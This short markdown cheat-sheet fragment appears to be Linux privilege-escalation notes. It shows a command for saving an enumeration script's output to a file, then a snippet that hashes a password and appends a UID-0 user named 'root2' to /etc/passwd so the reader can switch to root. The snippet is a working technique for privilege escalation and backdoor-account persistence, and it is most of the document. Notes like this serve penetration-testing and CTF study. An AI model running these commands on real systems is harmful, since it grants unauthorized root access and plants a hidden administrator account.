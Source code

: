 ## colored output to file
```bash
script -q -c "linpeash.sh" filename.txt
```

## write root user to /etc/passwd
```shell
openssl passwd password
echo "root2:COPY_FROM_ABOVE:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
id
```